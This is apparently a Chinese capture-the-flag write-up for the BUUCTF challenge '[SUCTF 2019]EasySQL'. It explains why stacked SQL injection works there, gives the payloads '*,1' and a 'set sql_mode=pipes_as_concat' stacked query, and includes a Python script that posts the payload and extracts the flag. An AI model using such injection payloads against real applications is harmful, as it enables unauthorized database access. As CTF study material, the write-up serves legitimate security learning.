



# 分析

来自[[SUCTF 2019]EasySQL](https://buuoj.cn/challenges#[SUCTF%202019]EasySQL)，sql注入，联合注入

页面功能是一个查询框，应该是sql注入，判断注入类型，使用万能密码不行，尝试联合注入，发现只有堆叠注入可行



发现Flag查询不了，也存在过滤



看了大佬的wp才知道，payload=`*,1`或者`1;set sql_mode=pipes_as_concat;select 1`，只能说很难想到



# exp

```python
import requests
import re

url = "http://c27eb3b8-f825-4660-bfed-b926df07f617.node5.buuoj.cn:81"
data={
  'query':'*,1'
}
res = requests.post(url, data=data)

if res.status_code == 200:
    res_text = res.text
    # 打印响应内容（可选）
    #print("Response:", response_text)
    # 使用正则表达式查找 flag
    flag_pattern = "flag\{.*?\}"
    flag_match = re.search(flag_pattern, res_text)
    if flag_match:
        flag = flag_match.group(0)
        print(f"flag found -->>{flag}")
    else:
        print("flag not found.")
else:
    print("Request failed.")
```

